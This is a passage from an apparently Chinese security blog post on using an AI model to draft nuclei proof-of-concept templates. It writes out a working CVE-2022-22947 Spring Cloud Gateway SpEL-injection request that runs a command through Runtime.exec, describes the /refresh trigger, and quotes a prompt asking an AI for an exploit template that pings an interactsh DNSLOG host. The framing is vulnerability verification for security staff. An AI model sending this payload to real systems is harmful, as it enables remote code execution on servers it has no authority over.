  

nuclei 自带的 dnslog 挺慢的，这里我就修改超时时间为 10 秒，方便验证

具体生成的代码还是挺不错的，适合辅助安全人员编写 poc

为了测试实战性怎么样，打算搞个最近出现的洞进行测试，这里就选择 CVE-2022-22947 的 SPEL 表达式注入漏洞进行测试

验证漏洞首先会通过 POST 进行发包

```bash
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8096
Content-Type: application/json
Content-Length: 185

{
	"id":"hacktest",
	"filters":[{
		"name":"RewritePath",
		"args":{
			"_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
			"_genkey_1": "/${path}"
		}
	}]
}
```

之后返回的内容如果是 201 Created，就可以再继续访问 /refresh 来刷新路由触发 SPEL 表达式

因此我判断漏洞的步骤就是发送 POST 请求，并判断返回结果是否为 201 Created，如果是则显示有漏洞

Prompt 如下：

```bash
question_text = """
    Please read the following HTTP request according to the operation documentation of the nuclei tool:
    ···
    POST /actuator/gateway/routes/hacktest HTTP/1.1
    Host: 192.168.73.229:8080
    Content-Type: application/json
    Content-Length: 185

    {
        "id":"hacktest",
        "filters":[{
            "name":"RewritePath",
            "args":{
                "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
                "_genkey_1": "/${path}"
            }
        }]
    }
    ···

    The HTTP response is as follows:
    ···
    HTTP/1.1 201 Created
    ···

    The above request response is the spel injection vulnerability in spring cloud gateway versions prior to 3.1.1+ and 3.0.7+. Severity level is High.The author of the discovery is VMware, and the cve number is CVE-2022-22947. Help me generate a nuclei poc, requiring the use of nuclei Use the built-in DNSLOG to judge the vulnerability.And judging that the HTTP response status code is 201 Created.Don't generate too many explanations for me, I only need the complete yaml code.Use the dns protocol of interactsh_protocol, and modify the cmd command parameter to ping interactsh address,also mark {{Hostname}}.
    """
```